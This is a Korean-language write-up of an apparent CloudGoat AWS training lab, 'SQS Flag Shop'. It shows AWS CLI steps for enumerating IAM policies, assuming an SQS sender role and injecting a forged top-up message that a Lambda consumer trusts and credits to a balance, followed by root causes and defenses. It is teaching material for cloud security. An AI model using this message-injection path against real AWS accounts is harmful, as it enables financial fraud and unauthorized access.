

# 08. SQS Flag Shop

- 난이도: Easy
- 핵심: 허용된 SQS API가 Business Logic의 신뢰 경계를 우회하는 과정을 확인합니다.

## Attack Path



## 1. 권한과 Role 조사

시작 User의 Policy에서 SQS 조회 권한과 특정 Sender Role에 대한 `sts:AssumeRole`을 확인합니다.

```bash
PROFILE=<PROFILE>

aws iam list-user-policies \
  --user-name <USER_NAME> \
  --profile "$PROFILE"

aws iam get-user-policy \
  --user-name <USER_NAME> \
  --policy-name <POLICY_NAME> \
  --profile "$PROFILE"

aws iam get-role \
  --role-name <SQS_SENDER_ROLE> \
  --profile "$PROFILE"
```

Role의 Trust Policy와 연결된 Policy를 함께 확인합니다. Sender Role은 Scenario Queue에 `sqs:GetQueueUrl`, `sqs:SendMessage`를 허용합니다.

## 2. Sender Role Profile 구성

```bash
aws configure set role_arn <SQS_SENDER_ROLE_ARN> \
  --profile <SENDER_PROFILE>
aws configure set source_profile "$PROFILE" \
  --profile <SENDER_PROFILE>
aws configure set role_session_name cloudgoat-sqs-sender \
  --profile <SENDER_PROFILE>

aws sts get-caller-identity --profile <SENDER_PROFILE>
```

Queue 목록 권한이 없어도 Policy의 Resource ARN 끝부분에서 Queue 이름을 알 수 있습니다.

```text
arn:aws:sqs:<REGION>:<ACCOUNT_ID>:<QUEUE_NAME>
```

## 3. Queue URL과 Message 형식 확인

```bash
aws sqs get-queue-url \
  --queue-name <QUEUE_NAME> \
  --profile <SENDER_PROFILE> \
  --region <REGION>
```

Web의 정상 충전 요청과 Scenario Resource를 관찰해 Consumer가 기대하는 Message Schema를 확인합니다. 그 구조를 유지하되 허용 범위를 벗어난 충전 값을 Lab Queue에 전송합니다.

```bash
aws sqs send-message \
  --queue-url <QUEUE_URL> \
  --message-body '<VALID_SCENARIO_MESSAGE_JSON>' \
  --profile <SENDER_PROFILE> \
  --region <REGION>
```

웹 UI의 선택지는 제한되어 있어도 Queue API는 별도 경로입니다. Consumer가 발신자의 업무 권한과 금액 범위를 검증하지 않으면 Message가 그대로 잔액에 반영됩니다.

## 잘못된 가설과 수정

처음에는 SQS를 통해 Lambda Execution Role을 탈취한다고 예상했지만 실제 경로는 더 단순했습니다.

```text
틀린 가설: SQS → Lambda Role 획득 → RDS 조작
실제 경로: SQS Message 주입 → Lambda가 신뢰 → Balance 조작
```

Queue는 Code 실행 권한이 아니라 **Consumer에게 전달할 명령·Data의 입력 경계**였습니다.

## Root Cause

- 저권한 User가 금전 처리 Queue의 Sender Role을 맡을 수 있었습니다.
- Consumer가 Message Source의 업무적 신뢰 수준을 구분하지 않았습니다.
- 충전 금액의 허용 목록·상한과 중복 처리가 충분히 검증되지 않았습니다.

## Defense

- Queue마다 Producer Role을 분리하고 `SendMessage` Resource를 최소화합니다.
- Message에 Actor, Request ID와 Schema Version을 포함하고 Server-side에서 검증합니다.
- 금액·상태 전이는 Database Transaction과 Business Rule로 다시 검사합니다.
- Idempotency Key, 상한, 이상 거래 탐지와 DLQ Monitoring을 적용합니다.
- UI 제한을 Authorization으로 취급하지 않습니다.
